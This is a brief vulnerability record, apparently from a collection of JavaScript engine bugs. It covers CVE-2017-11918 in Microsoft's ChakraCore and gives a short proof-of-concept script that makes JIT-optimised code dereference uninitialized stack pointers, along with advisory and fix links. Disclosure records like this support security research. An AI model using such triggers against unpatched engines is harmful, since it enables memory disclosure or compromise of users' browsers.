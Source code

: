 # CVE-2017-11918

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    let tmp = [];
    tmp[0] = tmp;
    return tmp[0];
}

function main() {
    for (let i = 0; i < 0x1000; i++) {
        opt();
    }

    print(opt());  // deref uninitialized stack pointers!
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11918)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1396)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/3237eca00091cc87d481a561e43c5adcb2168ec0)